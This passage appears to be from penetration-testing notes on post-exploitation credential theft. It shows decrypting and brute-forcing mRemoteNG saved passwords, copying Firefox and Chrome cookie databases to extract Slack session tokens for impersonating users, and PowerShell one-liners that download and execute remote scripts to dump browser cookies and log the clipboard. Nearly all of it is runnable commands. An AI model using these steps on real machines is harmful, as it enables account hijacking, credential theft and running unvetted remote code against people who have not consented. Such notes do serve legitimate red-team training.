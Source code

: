 Location:

```
%APPDATA%\mRemoteNG\confCons.xml
```

If no master password is set, the config can be decrypted with:

```bash
python3 mremoteng_decrypt.py -s "<EncryptedPassword>"
```

With known master password:

```bash
python3 mremoteng_decrypt.py -s "<EncryptedPassword>" -p admin
```

Crack loop using wordlist:

```bash
for pw in $(cat wordlist.txt); do
  python3 mremoteng_decrypt.py -s "<Encrypted>" -p $pw
done
```
### 7.4 Slack Token Extraction from Browsers
#### Firefox:

```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

Use `cookieextractor.py`:

```bash
python3 cookieextractor.py --dbpath cookies.sqlite --host slack --cookie d
```

Import into Cookie Editor extension to impersonate the user.
#### Chrome/Edge (DPAPI Protected):

1. Copy cookies DB to expected path:    

```powershell
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

2. Use SharpChromium (via Invoke-SharpChromium.ps1):

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://...Invoke-SharpChromium.ps1')
Invoke-SharpChromium -Command "cookies slack.com"
```
### 7.5 Clipboard Monitoring

Admins often paste credentials from password managers or 2FA tokens.

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```
